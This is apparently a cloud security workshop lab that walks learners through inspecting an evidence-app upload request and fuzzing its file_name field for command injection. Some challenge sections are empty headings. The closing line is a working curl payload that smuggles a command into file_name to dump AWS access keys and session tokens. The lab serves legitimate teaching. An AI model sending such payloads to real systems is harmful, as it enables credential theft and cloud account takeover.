








# Exercise 3: Discovering Evidence-App Vulnerability

<!-- markdownlint-disable MD033-->

<!--Overriding style-->
<style>
  :root {
    --sans-primary-color: #ff0000;
}
</style>

**Estimated Time to Complete:** 15 minutes

## Objectives

* Interact with **evidence-app** using your web browser, but this time use **Developer tools** to see what the submission looks like
* Fuzz the application by altering the `POST` payload sent to the application and review the results
* Infer what may be happening behind the scenes
* Review the source code to see where the vulnerability lies

## Challenges

### Challenge 1: Interact With Evidence-App (Again)

Instead of simply uploading another file, enable Developer tools in your web browser and see what the upload payload looks like when `/api/` is communicated with.

!!! note

    There is a walkthrough for some of the more common web browsers. If you use a different web browser than what is listed, research how to enable developer tools and how to view raw requests.

??? cmd "Solution - Google Chrome/Brave"

    1. Go to the browser tab with the evidence-app homepage. Again, if you closed it, you can recover the URL by running the following in your **CloudShell** session:

        ```bash
        echo $TARGET
        ```

        !!! summary "Expected Results"

            ```bash
            https://d1dw3pytnie47k.cloudfront.net
            ```

    2. Open Developer tools for this tab by either pressing `F12` or clicking on the triple dots in the top-right of the browser (1), hovering over **More tools** (2), and clicking on **Developer Tools** (3).

        {: class="w600" }

    3. A new pane should open on the right. To prepare for reviewing client and server communication, click on the **Network** tab.

        {: class="w600" }

    4. Upload another file as you did in **Exercise 2, Challenge 1**. Click on the **Choose File** button (1) and select a file of your choice (2).

        {: class="w600" }

        {: class="w500" }

    5. Click the **Submit** button (1). Click on the **OK** button in the alert popup (2). After a few moments, the file will be hashed and the results loaded on the page (3).

        {: class="w600" }

        {: class="w400" }

        {: class="w600" }

    6. In the **Developer Tools** pane, you should see two requests to `/api/`. The first is the `POST` request (the file upload) and the second is the `GET` request (refreshing the table on the web page). Click on the first request to `/api/` (1) and then, when a new pane opens, click on **Payload** (2).

        {: class="w600" }

    7. If you look closely at the **Form Data**, what is being submitted to `/api/` is a JSON object with two fields: `file_data` and `file_name`. The first (`file_data`) contains base64-encoded file contents and `file_name` is the name of the file submitted.

??? cmd "Solution - Firefox"

### Challenge 2: Fuzz Evidence-App

Being a web application, we would likely want to spend a decent amount of time performing attempts to uncover the [OWASP Top 10 web vulnerabilities](https://owasp.org/www-project-top-ten/). We do not have that kind of time in this workshop so we will focus on one in particular: **Injection**. Using the `POST` data that was discovered when interacting with the application, see if you can fuzz either one of the `POST` variables and see if the application responds unexpectedly.

??? cmd "Solution"

    1. As you are uploading data (file contents and file name) via the evidence-app, it is processed somewhere along the line and a hash of the data is generated, stored somewhere, and presented to the user via the web page. You are going to try to hijack the hashing process.

    2. To hijack this process, you will try to manipulate the data that is `POST`ed to the application. You have two choices, the `file_name` value or the `file_data` value. Let's start with `file_name`.

    3. You can fuzz an application with many different types of values, but, in the interest of time, let's see if we can fuzz the application with some command injection attempts. If you look [here](https://github.com/payloadbox/command-injection-payload-list) you will find a nice list of command injection payloads that you can set as the `file_name` value. This would take quite a while to do manually, so, like many useful techniques, there's a script for that located at `/home/cloudshell-user/scripts/fuzz-evidence-app.py`.

### Challenge 3: Infer Underlying Hash Command

### Challenge 4: Source Code Review


For next challenge: ```curl -X POST https://d1dw3pytnie47k.cloudfront.net/api/ -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -d '{"file_name":";env|egrep \"(AWS_ACCESS_KEY_ID|AWS_SECRET_ACCESS_KEY|AWS_SESSION_TOKEN)\"","file_data":"dGVzdAo="}'```
